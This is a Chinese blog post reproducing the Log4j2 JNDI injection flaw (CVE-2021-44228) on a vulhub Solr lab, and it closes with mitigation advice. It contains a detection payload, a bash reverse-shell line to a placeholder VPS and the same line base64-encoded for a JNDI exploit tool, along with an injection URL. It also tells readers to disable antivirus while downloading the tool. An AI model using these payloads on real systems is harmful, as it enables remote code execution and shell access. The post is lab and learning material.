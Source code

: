 ```yaml
---
layout:     post
title:      Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
subtitle:   纸上得来终觉浅，绝知此事要躬行
date:       2023-7-20
author:     xuoneyuan
header-img: 
catalog: 	  true
tags:
    - 漏洞复现
---
```

### 前言
做这个漏洞复现的主要原因是因为在看微信公众号文章的时候看到了这么一张图，第一眼看的时候就没绷住，后来在空间看到一个福建来的信安天才少年发了说说就是这张图，感觉有点意思，就想着自己也来复现一下

![每次看都绷不住]({{site.baseurl}}/img-post/l-13.png)

这里我翻译一下：
- ldap://：这表示URL使用LDAP协议进行通信
- chinaran404：这是LDAP服务器的主机名或IP地址
- /loveme：这是LDAP服务器内特定资源的路径，可能是一个目录、条目或其他对象

这不禁让我想起了这张图（知乎看到的，侵删）

![真的是一个悲伤的故事]({{site.baseurl}}/img-post/l-15.png)

好了言归正传，我们来分析一下这个漏洞

### 漏洞分析
#### log4j2是什么
log4j2是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息
#### JNDI是什么
JNDI，全称为Java命名和目录接口（Java Naming and Directory Interface）,是SUN公司提供的一种标准的Java命名系统接口，允许从指定的远程服务器获取并加载对象。JNDI相当于一个用于映射的字典，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务
#### log4j2远程代码执行漏洞原理
log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）\
攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）

示意图:
![1]({{site.baseurl}}/img-post/l-17.png)
#### 漏洞等级
高危\
官方 CVSS 评分 10.0
#### 影响版本
Apache Log4j2 2.x <= 2.14.1\
Apache Log4j2 2.15.0-rc1（补丁绕过）
### 漏洞复现
#### 环境搭建
这里我使用的是vulhub，利用docker启动关闭环境
没有vulhub的可以用这个靶场：https://vulfocus.cn/#/dashboard
没有docker的先下载
![1]({{site.baseurl}}/img-post/l-1.png)
vulhub的下载
~~~
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
~~~
然后进入需要开启的漏洞路径
~~~
cd vulhub-master/xxx/xxx
docker-compose up -d
~~~
![1]({{site.baseurl}}/img-post/l-2.png)
端口是8983，我们接下来访问http://192.168.xxx.xxx:8983/solr/#/
![1]({{site.baseurl}}/img-post/l-3.png)
#### 漏洞检测
官方POC(二选一）
~~~
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
~~~
利用DnsLog平台检测dns回显，查看是否有漏洞存在，获取一个子域名
![1]({{site.baseurl}}/img-post/l-4.png)
接着我们就可以对目标网站进行测试了，访问：http://192.168.xxx.xxx:8983/solr/admin/cores?${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn }
![1]({{site.baseurl}}/img-post/l-5.png)
返回，刷新后得到数据
![1]({{site.baseurl}}/img-post/l-6.png)

#### 漏洞利用
反弹shell的命令
~~~
bash -i >& /dev/tcp/vps_ip/6666 0>&1
~~~
接着进行编码，对命令进行base64加密即可
![1]({{site.baseurl}}/img-post/l-18.png)
接下来利用现成的JNDI注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，项目地址：[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
（注意下载的时候要关掉一切防火墙和实时保护）

最迟到这里你的kali攻击机就要启动了，执行命令
~~~
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC92cHNfaXAvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.xxx.xxx
~~~
运行后终端如图：
![1]({{site.baseurl}}/img-post/l-7.png)
这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，我选择用ldap，JDK1.8的版本为ldap://192.168.xxx.xxx:1389/Exploit，JDK1.7的版本为：ldap://192.168.xxx.xxx:1389/Exploit 这两个版本任选一个都行
再打开一个终端开启nc
![1]({{site.baseurl}}/img-post/l-8.png)
把工具生成的payload插入到action后面
~~~
http://192.168.xxx.xxx:8983/solr/admin/cores?action=${jndi:ldap://192.168.xxx.xxx:1389/xxxxxx}
~~~
![1]({{site.baseurl}}/img-post/l-9.png)

再次返回kali我们可以看到nc成功反弹shell，但是我这里有一个小问题，就是shell没有反弹回来，查了一下csdn的一个大佬说他也反弹不回来，换了一个靶场就好了，所以可能是vulhub这个靶场的问题，我试了好几个端口比如6969，8888都没有成功反弹shell，这个时候已经凌晨2：40了，于是我决定先睡觉（~~没错我就是懒狗~~）

反弹成功的回显是这样的

![1]({{site.baseurl}}/img-post/l-11.png)

本来到这里就应该结束了，但是我还是发现一个问题，就是在JNDI注入工具上决定了你是黑客大佬还是脚本小子，如果只会用工具，那么小学生都能顺利完成这个漏洞复现（问题是我已经大学了），在JNDI脚本运行上我又出了问题

![1]({{site.baseurl}}/img-post/l-12.png)

我尝试了一下网上的方法，说是maven打包出现了问题，我照他的方法重新配置了起步依赖，但是没有用，这个事情充分说明了不会编程的hacker就是个伪命题（你给我去学Java、golang）

![1]({{site.baseurl}}/img-post/l-16.png)

#### 修复建议
1. 设置log4j2.formatMsgNoLookups=True，相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点
2. 对包含有"jndi:ldap://"、"jndi:rmi//"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入
3. 对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等
4. 升级log4j2组件到新的安全的版本

### 彩蛋
![1]({{site.baseurl}}/img-post/l-14.png)
